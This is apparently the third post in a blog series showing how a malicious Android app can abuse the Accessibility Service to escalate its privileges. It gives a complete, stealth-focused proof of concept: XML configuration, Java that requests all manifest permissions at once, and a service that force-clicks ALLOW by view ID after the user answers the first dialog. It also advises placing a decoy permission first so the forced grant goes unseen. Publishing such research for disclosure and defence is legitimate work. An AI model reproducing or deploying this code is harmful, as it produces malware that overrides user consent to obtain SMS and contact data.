

## About Android Accessibility Service - Part 3

### [~$ cd ..](../)

### ~$ ls

* [How_an_Android_app_could_escalate_its_privileges.txt](./index)
* [How_an_Android_app_could_escalate_its_privileges_Part2.txt](./part2)
* How_an_Android_app_could_escalate_its_privileges_Part3.txt

### ~$ cat How_an_Android_app_could_escalate_its_privileges_Part3.txt

For this part, I changed the way the app obtains more permissions, making it stealthier. The trick here is to explicitly ask for at least two permissions, let the user
choose for the first one, and force the click on the second one. If the device is fast enough, we cannot really see that a second window has spawned and has been immediately closed.

The only suspicious thing is that popups are numbered, and the user will only see clearly the first one, if there are only two. Actually, I tried with three permissions, but on my slow
emulator, only the second one was "skipped", which is clearly suspicious.

### Configuration

The Manifest remains the same, I still ask for **READ_SMS** and **READ_CONTACTS**. However, the configuration file is modified, because we don't need to listen
for events coming from our app or Settings, and we try to catch `click` events. Furthemore, I added the flag `flagReportViewIds`:

> ```xml
><accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
>	android:accessibilityEventTypes="typeViewClicked"
>	android:packageNames="com.google.android.packageinstaller"
>	android:accessibilityFeedbackType="feedbackAllMask"
>	android:notificationTimeout="100"
>	android:canRetrieveWindowContent="true"
>	android:accessibilityFlags="flagReportViewIds"/>  
> ```

### Main activity

In the main activity, as usual, we try to detect if accessibility service is enabled. In this example, we only have to call `ActivityCompat.requestPermissions`
( `setContentView` doesn't need to be in the `else` statement actually)

> ```java
>@Override
>	protected void onCreate(Bundle savedInstanceState) {
>		super.onCreate(savedInstanceState);
>		String[] perms = getRequestedPermissions(this);
>		if (perms != null && perms.length != 0 && isAccessibilityServiceOn()) {
>			ActivityCompat.requestPermissions(this, perms, 1);
>		}else
>			setContentView(R.layout.activity_main);
>	}
> ```

and `getRequestedPermissions` returns permissions asked in the Manifest:

> ```
>private String[] getRequestedPermissions(){
>	PackageInfo info = null;
>	try {
>		info = getPackageManager().getPackageInfo(getPackageName(), PackageManager.GET_PERMISSIONS);
>	} catch (PackageManager.NameNotFoundException e) {
>		e.printStackTrace();
>	}
>	return info == null ? null : info.requestedPermissions;
>}
> ```

Then, the routine `ActivityCompat.requestPermissions(this, perms, 1)` will show one popup for each permission (that's the reason why they are numbered). The first parameter
is the asking activity (this one), and the last integer is an identifier, useless here since we don't use `onRequestPermissionsResult`. 

### The accessibility service

Once again, the code is simpler, because we don't need to browse through settings and click on certain items. The idea is very simple: for each permission,
the package manager will display a dialog box, with a short message, a picture, and two buttons: ALLOW and DENY. We try to capture the click on one of these two
buttons, and force the click on ALLOW. Then, this click will affect the next popup, and the next permission will be granted. Since we cannot ensure that the language
of the device is English, we use views' identifiers to know where to click, and which widget has been clicked.

The two interesting widgets have these ids:

> ```java
>private static final String DENY_BUTTON = "com.android.packageinstaller:id/permission_deny_button";
>private static final String ALLOW_BUTTON = "com.android.packageinstaller:id/permission_allow_button"; 
> ```

_That is the reason why I used the flag `flagReportViewIds`._

In `onAccessibilityEvent`, we don't need to filter, since there is only one registered type of event on one app. Once again, the view is recursively scanned,
and `true` is returned if the button has been clicked:

> ```java
>@Override
>public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	parseView(accessibilityEvent.getSource());
>}
>
>private boolean parseView(AccessibilityNodeInfo node){
>	if (node == null)
>		return false;
>	for(int i = 0; i< node.getChildCount(); i++){
>		if (parseView(node.getChild(i)))
>			return true;
>	}
>	if (node.getText() != null){
>		if (getRootInActiveWindow() != null && node.getViewIdResourceName() != null &&
>			(node.getViewIdResourceName().equalsIgnoreCase(DENY_BUTTON) || node.getViewIdResourceName().equalsIgnoreCase(ALLOW_BUTTON))){
>				
>			List<AccessibilityNodeInfo> allow = getRootInActiveWindow().findAccessibilityNodeInfosByViewId(ALLOW_BUTTON);
>			if (allow != null && allow.size() != 0) {
>				allow.get(0).performAction(AccessibilityNodeInfo.ACTION_CLICK);
>			}
>		}
>	}
>	return false;
>}
> ``` 

### So what ?

In the video, you can see that **READ_CONTACTS** has been granted, whereas **READ_SMS** has been explicitly denied by the user. Since my emulator is really slow,
we can see that a second window has spawned with the second permission. The idea is then to put first in the Manifest a "useless" permission, and the expected one.

Two things are quite interesting in this example:
* we don't care about the language of the device
* if the user doesn't pay attention to the message "1 of xxx" in the dialog box, and if the device is not too slow, the second window could be unnoticed. In the
previous examples, it was clearly visible that the app was trying to do bad things, because it was not fast enough. Here, we let the user decide, and it makes a
real difference.

Video:

[](https://youtu.be/vs057e_NE9U)

